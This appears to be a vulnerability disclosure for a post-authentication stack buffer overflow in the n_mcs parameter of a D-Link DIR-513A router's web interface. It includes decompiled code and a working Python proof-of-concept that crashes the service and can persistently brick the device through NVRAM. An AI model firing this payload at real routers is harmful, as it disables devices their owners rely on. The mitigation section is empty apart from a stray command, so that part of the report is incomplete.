




### 1. Vulnerability Summary

* **Vulnerability Type:** Stack-based Buffer Overflow (CWE-121)
* **Affected Component:** Router Web Management Interface (based on GoAhead Web Server)
* **Affected Endpoint:** `/goform/wirelessAdvanced` (or related form endpoints bound to the `sub_42BCA0` function)
* **Vulnerable Parameter:** `n_mcs`
* **Prerequisite:** Authentication Required (Post-Auth)
* **Affected Product & Firmware Version:** D-Link DIR-513A (Hardware Rev: A1, Firmware Version: FW1.10.00TW   bin:DIR513AA1_FW1.10.00TW_20141029.bin)

### 2. Detailed Vulnerability Description

In the backend handler function `sub_42BCA0` responsible for processing Wireless Advanced Settings, the program lacks necessary length validation when extracting user-submitted HTTP form parameters. This oversight results in a classic stack buffer overflow vulnerability.

The vulnerability trigger chain is as follows:



**Step 1: Unsafe Data Extraction**

The program retrieves the user-controlled `n_mcs` parameter using the `websGetVar` function and assigns its pointer to the variable `v7`. At this stage, no length restrictions are applied to the input:

```C
v7 = (const char *)websGetVar(a1, (int)"n_mcs", (__int16)"33");
```

**Step 2: Fixed-Size Stack Buffer**

Within the local variable declaration area of the function, a character array `v20` with a capacity of only 24 bytes is allocated on the stack:

```c
_BYTE v20[24]; // [sp+50h] [-90h] BYREF
```

**Step 3: Dangerous Memory Copy (Taint Sink)**

When preparing to write the configuration to the NVRAM, the program utilizes the unsafe `strcpy` function, copying the user input `v7` directly into the 24-byte buffer `v20`:

```c
strcpy(v20, v7);
nvram_bufset(0, "HT_MCS", v20);
```

When an attacker passes an overly long string (exceeding 24 bytes) into the `n_mcs` parameter, `strcpy` performs an out-of-bounds write, causing a buffer overflow. The excess data overflows the stack space, ultimately overwriting the Return Address (`$ra`) on the call stack.

**Furthermore:** Because this function stores the unvalidated, oversized `n_mcs` parameter content into the NVRAM (via `nvram_bufset` and subsequent commit), the malicious payload is persisted to the flash memory. Consequently, when the GoAhead Web service initializes and loads this NVRAM configuration, it will immediately trigger a Segmentation Fault again, forcing the device into an inescapable crash loop (bricking).

### 4. Proof of Concept (PoC)

The following Python script can be used to verify this vulnerability. The script triggers the stack overflow on the target device by sending a 100-byte payload in the `n_mcs` parameter, resulting in a service crash and connection drop.

**Python**

```
import requests
import time

# Target router IP address
router_ip = "192.168.0.1" 
url = f"http://{router_ip}/goform/wirelessAdvanced" 

# Construct request headers (including valid Basic Auth credentials)
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0",
    "Content-Type": "application/x-www-form-urlencoded",
    "Authorization": "Basic YWRtaW46YWRtaW4=",  
    "Cookie": "language=zhtw"
}

# Construct the malicious Payload
# The target stack buffer capacity is only 24 bytes. Sending 100 bytes is more than enough to overwrite the return address ($ra).
malicious_n_mcs = "A" * 100  

payload = {
    "n_mcs": malicious_n_mcs,
    "bg_protection": "0",
    "tx_power": "100"
}

print(f"[*] Preparing to send Stack Overflow payload...")
print(f"[*] Target URL: {url}")
print(f"[*] Injected parameter 'n_mcs' length: {len(malicious_n_mcs)} bytes")

try:
    start_time = time.time()
    response = requests.post(url, data=payload, headers=headers, timeout=3)
  
    print(f"[-] Request completed. HTTP Status Code: {response.status_code}")
    print("[-] The target service does not appear to have crashed. Please verify the URL or check if the environment has stack protections (e.g., Stack Canaries).")
  
except requests.exceptions.ReadTimeout:
    print("\n[+] Trigger Successful! (ReadTimeout)")
    print("[+] The server is unresponsive. The GoAhead process has been flooded with the overflow data and crashed!")
except requests.exceptions.ConnectionError:
    print("\n[+] Trigger Successful! (ConnectionError)")
    print("[+] The remote server forcefully terminated the connection. The GoAhead process died from a Segmentation Fault!")
except Exception as e:
    print(f"\n[!] An unexpected exception occurred: {e}")
```

### 5. Overcome

**Before**



**After**



exec bin/goahead


